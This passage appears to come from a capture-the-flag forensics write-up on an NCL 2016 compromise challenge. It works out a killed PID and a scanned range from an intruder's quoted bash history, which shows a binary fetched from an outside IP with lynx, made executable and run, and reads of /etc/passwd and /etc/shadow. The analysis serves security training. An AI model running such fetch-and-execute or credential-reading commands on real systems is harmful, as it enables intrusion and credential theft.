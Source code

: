 <div class="rBorder" markdown="1">
<span style="color:red">3. __What is the PID of the program that the hacker killed?__</span>

Back in the output let's look for the [ps](https://linux.die.net/man/1/ps) command and see what PID it's killing.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: 12432__
</div>

<div class="rBorder" markdown="1">
<span style="color:red">4. __What is the IP range the hacker scanned (use the exact argument)?__</span>

Well "scanned" is the keyword here, so let's look for [Nmap](https://nmap.org/book/man-briefoptions.html)!

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
```